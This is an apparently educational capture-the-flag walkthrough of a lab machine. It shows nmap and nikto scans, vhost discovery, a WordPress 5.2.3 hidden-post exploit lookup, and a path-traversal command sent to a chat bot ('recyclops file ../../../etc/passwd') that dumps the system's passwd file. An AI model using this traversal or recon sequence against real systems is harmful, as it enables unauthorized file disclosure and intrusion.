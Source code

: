 ***

Author : dxWiz
Date 04 May 2022

***

First of as usual we will do an nmap scan

    # Nmap 7.92 scan initiated Fri Apr 29 19:23:37 2022 as: nmap -sC -sV -T4 -p- -oN initial.nmap 10.10.11.143
    Nmap scan report for 10.10.11.143
    Host is up (0.024s latency).
    Not shown: 65532 closed tcp ports (conn-refused)
    PORT    STATE SERVICE    VERSION
    22/tcp  open  ssh        OpenSSH 8.0 (protocol 2.0)
    80/tcp  open  http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
    443/tcp open  ssl/https?

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Apr 29 19:29:47 2022 -- 1 IP address (1 host up) scanned in 370.76 seconds
    
When visit to the website we found nothing but a plain simple HTTP server test page. So the next possible action is to find hidden folder with gobuster or dirb and both of that does not return any interesting result.

Let do a nikto scan

    └─$ nikto -host 10.10.11.143 -o nikto.txt                                                                      1 ⨯
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.11.143
    + Target Hostname:    10.10.11.143
    + Target Port:        80
    + Start Time:         2022-05-03 17:04:12 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + Uncommon header 'x-backend-server' found, with contents: office.paper
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + Retrieved x-powered-by header: PHP/7.2.24
    + Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE 
    + OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
    + OSVDB-3092: /manual/: Web server manual found.

    + OSVDB-3268: /icons/: Directory indexing found.
    + OSVDB-3268: /manual/images/: Directory indexing found.
    + OSVDB-3233: /icons/README: Apache default file found.

    + 8699 requests: 0 error(s) and 11 item(s) reported on remote host
    + End Time:           2022-05-03 17:30:48 (GMT-4) (1596 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested

`x-backend-server : office.paper` seems interesting, let's assume it is a vhost and add $IP and office.paper as hostname in `/etc/hosts`

Let's browse to `http://office.paper` and we can see that it is a forum page for a paper company. `Wappalyzer` indicate that the webpage is powered by `Wordpress 5.2.3`, probably it will have some vulnerabilities with this version? `searchsploit` is the way to find out

    └─$ searchsploit wordpress 5.2.3 -w
    ---------------------------------------------------------------------- --------------------------------------------
     Exploit Title                                                        |  URL
    ---------------------------------------------------------------------- --------------------------------------------
    WordPress Core 5.2.3 - Cross-Site Host Modification                   | https://www.exploit-db.com/exploits/47361
    WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Pos | https://www.exploit-db.com/exploits/47690
    WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service               | https://www.exploit-db.com/exploits/47800
    WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities   | https://www.exploit-db.com/exploits/39553
    WordPress Plugin iThemes Security < 7.0.3 - SQL Injection             | https://www.exploit-db.com/exploits/44943
    WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection           | https://www.exploit-db.com/exploits/48918
    ---------------------------------------------------------------------- --------------------------------------------
    Shellcodes: No Results
    Papers: No Results

[This link](https://www.exploit-db.com/exploits/47690) has some interesting tricks to reveal hidden content and with that we found a secret registration link to the paper company's employee chat system. Let's register that link hostname to /etc/hosts before we proceed further.

After registration, we are in the chat system and by going through the messages we knkow that we are able to interact with the bot to do two important things. To get files and to list files. After some experiment we notice that we are able to list and get sensitive data from `/etc/passwd` with this command `recyclops list ../../../etc/passwd` and `recyclops file ../../../etc/passwd`

     <!=====Contents of file ../../../etc/passwd=====>
    root❌0:0:root:/root:/bin/bash
    bin❌1:1:bin:/bin:/sbin/nologin
    daemon❌2:2:daemon:/sbin:/sbin/nologin
    adm❌3:4:adm:/var/adm:/sbin/nologin
    lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
    sync❌5:0:sync:/sbin:/bin/sync
    shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
    halt❌7:0:halt:/sbin:/sbin/halt
    mail❌8:12:mail:/var/spool/mail:/sbin/nologin
    operator❌11:0:operator:/root:/sbin/nologin
    games❌12💯games:/usr/games:/sbin/nologin
    ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
    nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
    dbus❌81:81:System message bus:/:/sbin/nologin
    systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
    systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
    tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
    polkitd❌998:996:User for polkitd:/:/sbin/nologin
    geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
    rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
    qemu❌107:107:qemu user:/:/sbin/nologin
    apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
    cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
    pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
    usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
    unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
    rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
    gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
    chrony❌993:987::/var/lib/chrony:/sbin/nologin
    libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
    saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
    dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
    radvd❌75:75:radvd user:/:/sbin/nologin
    clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
    pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
    sssd❌983:981:User for sssd:/:/sbin/nologin
    colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
    rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
    setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
    pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
    gdm❌42:42::/var/lib/gdm:/sbin/nologin
    gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
    insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
    sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
    avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
    tcpdump❌72:72::/:/sbin/nologin
    mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
    nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
    mongod❌976:974:mongod:/var/lib/mongo:/bin/false
    rocketchat❌1001:1001::/home/rocketchat:/bin/bash
    dwight❌1004:1004::/home/dwight:/bin/bash
    <!=====End of file ../../../etc/passwd=====>



